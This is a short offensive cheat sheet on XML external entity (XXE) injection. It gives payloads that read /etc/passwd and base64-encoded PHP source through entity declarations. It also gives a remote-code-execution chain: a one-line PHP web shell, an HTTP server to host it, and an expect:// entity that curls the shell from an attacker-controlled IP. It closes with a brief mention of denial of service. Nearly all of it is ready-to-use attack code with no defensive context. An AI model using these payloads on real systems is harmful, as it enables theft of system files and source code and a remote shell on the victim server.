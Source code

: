 
### reading sensitive files
we can add them after the `<?xml>` tag at the start
```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```
and then in the injectable parameter we can just do 
```
&company;
```
other files 
`<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">`


#### RCE
```
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```
`<!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">`


can also do a DOS